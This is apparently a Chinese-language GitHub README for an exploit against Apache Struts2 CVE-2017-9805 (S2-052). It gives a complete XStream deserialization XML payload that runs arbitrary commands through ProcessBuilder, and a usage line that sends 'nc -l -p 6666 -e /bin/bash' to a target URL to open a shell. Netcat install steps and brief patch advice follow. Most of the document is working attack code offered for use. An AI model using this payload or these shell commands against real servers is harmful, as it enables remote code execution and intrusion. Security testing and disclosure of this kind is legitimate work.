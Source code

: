 # CVE-2017-9805 （S2-052）反弹Shell Exploit

## 影响版本
```
Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12
```

## Poc

```
Content-Type: application/xml

<map>
<entry>
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>calc</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
</entry>
</map>

Windows <command><string>calc</string></command>

Mac <command><string>/Applications/Calculator.app/Contents/MacOS/Calculator</string></command>
```

## 漏洞复现详情

https://secfree.com/article-333.html

##  CentOs 7 安装 Nc
```
rpm -ivh netcat-1.10-891.2.x86_64.rpm
```

## 选项

```
 [*] Apache Struts2 CVE-2017-9805 (S2-052) - Exploit
 [*] 0day Info:https://secfree.com/article-333.html
 [*] Use:        <targetUrl> <command>
 [*] Author:  www.secFree.com Team By Bearcat
```

## 使用

```
java -jar CVE-2017-9805-Exploit.jar http://192.168.199.246:8080/struts2-rest-showcase/orders.xhtml "nc -l -p 6666 -e /bin/bash"

nc 192.168.199.246 6666
```

![exploit](https://github.com/iBearcat/S2-052/blob/master/exploit.jpg?raw=true)

本Exploit只做Shell反弹，如执行命令回显请https://github.com/luc10/struts-rce-cve-2017-9805

## 修复方案

1.建议尽快升级到 2.5.13版本。

2.在不使用时删除 Struts REST插件，或仅限于服务器普通页面和JSONs：

```
<constant name=”struts.action.extension” value=”xhtml,,json” />
```

3.限制服务器端扩展类型，删除XML支持。
